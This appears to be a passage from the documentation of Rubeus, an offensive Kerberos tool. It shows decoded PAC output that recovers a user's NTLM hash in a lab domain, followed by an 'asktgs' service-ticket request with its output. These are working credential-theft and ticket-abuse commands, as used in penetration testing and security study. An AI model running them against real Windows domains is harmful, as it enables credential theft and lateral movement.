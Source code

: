           BadPasswordCount     : 0
          UserId               : 1106
          PrimaryGroupId       : 513
          GroupCount           : 1
          Groups               : 513
          UserFlags            : (32) EXTRA_SIDS
          UserSessionKey       : 0000000000000000
          LogonServer          : PDC1
          LogonDomainName      : RUBEUS
          LogonDomainId        : S-1-5-21-3237111427-1607930709-3979055039
          UserAccountControl   : (528) NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
          ExtraSIDCount        : 1
          ExtraSIDs            : S-1-18-1
          ResourceGroupCount   : 0
        CredentialInfo         :
          Version              : 0
          EncryptionType       : rc4_hmac
          CredentialData       :
            CredentialCount    : 1
              NTLM             : C69A7EA908898C23B72E65329AF7E3E8
        ClientName             :
          Client Id            : 19/07/2021 23:00:38
          Client Name          : harmj0y
        UpnDns                 :
          DNS Domain Name      : RUBEUS.GHOSTPACK.LOCAL
          UPN                  : harmj0y@rubeus.ghostpack.local
          Flags                : 0
        ServerChecksum         :
          Signature Type       : KERB_CHECKSUM_HMAC_MD5
          Signature            : ADEC4A1A7DF70D0A61047E510E778454 (VALID)
        KDCChecksum            :
          Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
          Signature            : 6CF688E02147BEEC168E0125 (UNVALIDATED)

**Note The `/asrepkey` from the TGT retrival must be passed to decrypted the CredentialData section where the NTLM hash is stored but the `/servicekey` argument is not required here as the session key from the TGT is being used because it is a user-to-user request.

Requesting a service ticket using the current logged on session:
```
Rubeus.exe asktgs /service:LDAP/dc.ghostpack.local /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3

[*] Action: Ask TGS

[=] Requesting service ticket via LSA authentication package 2 using handle 0x9625072
[*] base64(ticket.kirbi):

      doIGvDCCBrigAwIBBaEDAg(..snip..)

  ServiceName              :  LDAP/dc.ghostpack.local
  ServiceRealm             :  GHOSTPACK.LOCAL
  UserName                 :  CCob (NT_PRINCIPAL)
  UserRealm                :  GHOSTPACK.LOCAL
  StartTime                :  25/02/2025 09:08:11
  EndTime                  :  25/02/2025 18:48:39
  RenewTill                :  03/03/2025 12:47:40
```
